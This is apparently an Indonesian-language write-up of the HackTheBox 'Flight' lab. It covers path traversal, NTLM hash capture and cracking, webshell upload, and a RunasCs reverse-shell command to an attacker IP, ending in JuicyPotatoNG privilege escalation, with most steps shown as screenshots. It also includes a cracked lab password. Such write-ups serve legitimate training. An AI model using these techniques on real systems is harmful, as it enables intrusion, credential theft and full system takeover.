 ```yaml
---
title: "HackTheBox - Flight Writeups"
date: 2023-01-09 19:00:00 +07:00
categories: [WriteUps]
tags: [ctf, hackthebox, pentest, writeups]
image: 
---
```


# HackTheBox Flight Writeups

Scanning dengan nmap. Berikut port terbuka sebagai berikut:
```
┌──(root㉿yupy)-[~/yp/hackthebox/Flight]
└─# nmap -sC -sV 10.10.11.187 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 17:43 PST
Nmap scan report for 10.10.11.187
Host is up (0.035s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: g0 Aviation
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-22 08:44:09Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m01s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-12-22T08:44:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.81 seconds

```

Scanning dengan Nikto untuk melihat vulnerability Assessment yang ada:
![image](https://media.discordapp.net/attachments/740245586095112242/1061907176899219497/image.png)

Fuzzing directory dengan berbagai tools Dirsearch dan Dirb:
![image](https://media.discordapp.net/attachments/740245586095112242/1061907396965969970/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061907509281050694/image.png)

Fuzzing subdomain flight.htb dengan wfuzz tools, disini kita menemukan subdomain school.
![image](https://media.discordapp.net/attachments/740245586095112242/1061907881328386048/image.png)

Kita juga menggunakan tools scanning Burp Suite, dari scan deep dari BurpSuite kami menemukan kerentanan tentang File Path Travesal yang ada pada parameter ```view:```. Disini bila menggunakan payload ```file:///c:/windows/win.ini``` yang telah kita encode urlnya. Kita bisa melihat version pada windows tersebut dengan payload ini.
![image](https://media.discordapp.net/attachments/740245586095112242/1061908290033950730/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061908563062169600/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061908581726830592/image.png)

Dari kita mencoba melihat file lokal di server, kita dapat mencoba RFI yang berpontial SSRF juga di server target, sehingga bila kita menginputkan url server kita akan mengautentikasi dan menunjukkan kepada kita hash ntlmv2 dari pengguna yang sedang berjalan, seperti di server yang merespons, disini kita menggunakan responder untuk mendapatkan responya:
![image](https://media.discordapp.net/attachments/740245586095112242/1061908805669105744/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061908924904767529/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061909236583497808/image.png)

Setelah mendapatkan hash ntmlv2 kita juga crack hash tersebut dengan tools ```John```, dan disini kita mendapatkan password:
![image](https://media.discordapp.net/attachments/740245586095112242/1061909440175030272/image.png)

Kita disini mencoba mencocokan password kredensial yang terhubung dengan smb server target tersebut, dan kita mendapatkanya bila password itu cocok dengan user ```svc_apache```
![image](https://media.discordapp.net/attachments/740245586095112242/1061909663475580978/image.png)

Kita melanjutkanya untuk melihat user lain yang ada di Smb server target. Disini kita melihat semua user yang ada pada Smb server target tersebut.
![image](https://media.discordapp.net/attachments/740245586095112242/1061909916119482378/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061909948692439090/image.png)

Setelah kami membuat file dengan user yang didapat tadi, dan disini kita mencoba mencocokan kredential lagi. Disini kita mendapatkan users dengan password yang cocok selain ```svc_apache``` yaitu ```S.Moon```.
![image](https://media.discordapp.net/attachments/740245586095112242/1061910433654652978/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061910747677999134/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061910851554127912/image.png)

```S.Moon``` menggunakannya, kita dapat mencari direktori seseorang yang memiliki izin.
![image](https://media.discordapp.net/attachments/740245586095112242/1061911187278807041/image.png)

Kita mencoba login dengan smbclient dan kita dapat masuk. Disini tidak ada file apapun namun kita mencoba memasukan payload yang saya dapatkan dari [hacktricks](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini)
![image](https://media.discordapp.net/attachments/740245586095112242/1061911597070684251/image.png)

Disini kita membuat payload yang nantinya kita akan mendapatkan Hash lagi dari response backconnect:
![image](https://media.discordapp.net/attachments/740245586095112242/1061913339787214888/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061913514706468874/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061913655819640903/image.png)

Seperti biasa untuk crack hash ntmlv2 yang di dapat dari backconnect tadi, dan mendapatkanya passwordnya.
![image](https://media.discordapp.net/attachments/740245586095112242/1061913834203398154/image.png)

Setelah kita crack passwordnya mencoba melihat directory share dengan user ```C.Bum``` dan password ```Tikkycoll_431012284```.
![image](https://media.discordapp.net/attachments/740245586095112242/1061914069633859654/image.png)

Disini kita mencoba login dengan user dan password tadi, terdapat directory flight.htb dan school.flight.htb yang berarti directory ini adalah directory yang memuat halaman page tadi.
![image](https://media.discordapp.net/attachments/740245586095112242/1061914726629642261/image.png)

Setelah itu kita mencoba mengupload webshell [wwwolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) yang kita gunakan backconnect nantinya.
![image](https://media.discordapp.net/attachments/740245586095112242/1061915087260102756/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061915170387005470/image.png)

Setelah berhasil kita mengupload netcat yang didapat dari github: [netcat](https://github.com/diegocr/netcat) yang kita akan upload ke dalam server. Berhasil terupload netcatnya kita backconnect an dengan netcat pc kita.
![image](https://media.discordapp.net/attachments/740245586095112242/1061915537552183296/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061915560692174918/image.png)

Disini mencoba privileges escalation pada server yang menggunakan windows ini, dengan menggunakan [RunaCS](https://github.com/antonioCoco/RunasCs/releases/tag/v1.4) ini kita dapat menjalakan command powershell lebih detail lagi.
![image](https://media.discordapp.net/attachments/740245586095112242/1061915914670456842/image.png)

Dan kita sambungkan dengan netcat yang bila nanti kita buka akan menggunakan command powershell.
```
.\RunasCs.exe C.bum Tikkycoll_431012284 powershell -r 10.10.14.7:7333
```
![image](https://media.discordapp.net/attachments/740245586095112242/1061916347669434388/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061916374814969946/image.png)

Bagaimana cara privileges escalation dengan server ini? Kita akan menemukanya, setelah kita melihat lihat isi server ini.
![image](https://media.discordapp.net/attachments/740245586095112242/1061916681754128384/image.png)

Kita disini dapat melihat isi ```user.txt``` yang berada di user ```C.Bum``` tetapi kita tidak bisa melihat isi user administrator.
![image](https://media.discordapp.net/attachments/740245586095112242/1061916983865655316/image.png)

Setelah mencari lebih dalam kita menemukan bahwa kalau kita membuka netstat dengan command ```netstat -oat``` kita akan melihat port 8000 yang berarti port ini mendapatkan isi web yang mungkin menampilkan halaman page baru.
![image](https://media.discordapp.net/attachments/740245586095112242/1061917375475236894/image.png)

Kita disini menggunakan chisel untuk melihat yang ada pada port 8000 dengan cara menghubungkan port ini kedalam server kita. Dengan mengupload chisel yang saya dapatkan dari [chisel](https://github.com/jpillora/chisel) jalankan chisel server target dan server pc kita sendiri.
![image](https://media.discordapp.net/attachments/740245586095112242/1061917823154262087/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061917995175247882/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061918031158194206/image.png)

Disini bila kita membuka port 8000 dengan localhost akan memunculkan tampilan seperti gambar dibawah.
![image](https://media.discordapp.net/attachments/740245586095112242/1061919532517691412/image.png)

Mencari dimana letak source code halaman page ini, dan kita menemukanya letak source code port 8000 di directory ```C:\inetpub\development```
![image](https://media.discordapp.net/attachments/740245586095112242/1061919749308678234/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061919774847807488/image.png)

Selanjutnya kita mencoba upload shell [cmd](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx) yang saya punyai.
![image](https://media.discordapp.net/attachments/740245586095112242/1061920219062345758/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061920412969205770/image.png)

Kita mencoba backconnect an lagi dengan netcat. Disini kami melakukan pencarian yang bisa untuk mendapatkan user Administrator secara langsung.
![image](https://media.discordapp.net/attachments/740245586095112242/1061920601549312080/image.png)

Dengan menambahkan command whoami ```/priv``` kita dapat melihat bahwa memungkinkan privileges escalation. [Referensi](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)
![image](https://media.discordapp.net/attachments/740245586095112242/1061920971969282080/image.png)

Disini kita menggunakan [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG) untuk menaikan user biasa ke user administrator. Dengan command dibawah kita bisa mendapatkan ```nt authority\system``` yang dapat melakukan eksekusi apapun yang terdapat di server.
![image](https://media.discordapp.net/attachments/740245586095112242/1061921580151742464/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061926134536753172/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061921783680348201/image.png)
